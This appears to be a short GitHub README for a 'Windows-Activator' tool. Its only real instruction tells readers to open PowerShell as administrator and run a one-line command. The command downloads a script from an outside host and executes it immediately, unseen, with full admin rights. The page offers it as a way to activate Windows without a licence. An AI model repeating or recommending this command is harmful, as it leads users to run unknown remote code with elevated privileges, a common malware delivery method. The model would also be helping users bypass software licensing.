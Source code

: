 # Windows-Activator


1. open powershell in administrator and type " irm https://getactivation.exitcorporation.store | iex "
2. ![image](https://github.com/user-attachments/assets/576e5fbc-fc6b-492e-8bee-d001d098b392)
3. 

  
